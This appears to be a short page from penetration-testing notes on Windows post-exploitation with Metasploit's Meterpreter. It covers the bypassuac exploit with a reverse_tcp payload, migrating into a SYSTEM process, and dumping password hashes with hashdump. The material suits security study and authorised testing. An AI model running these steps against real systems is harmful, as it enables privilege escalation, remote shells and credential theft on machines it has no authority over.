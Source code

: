 ```yaml
---
layout: default
title: Post-Admin/Root
has_children: true
permalink: /docs/post-admin-root
---
```


# Post-Admin/Root
## Meterpreter
Bypass UAC (uploads shell in context that is not restricted by UAC)
```shell
background             # Background session
use exploit/windows/local/bypassuac
set SESSION <session>
set PAYLOAD <payload>  # e.g. windows/meterpreter/reverse_tcp
# Setup necessary payload parameters
run
```

Migrating Processes
```shell
ps  # Note the PID of process that runs under NT AUTHORITY\SYSTEM
migrate <PID>
```

Useful Commands
```shell
getprivs  # Check privileges; can be expanded via bypassuac
getuid    # Check user
hashdump  # Requires SYSTEM privileges
```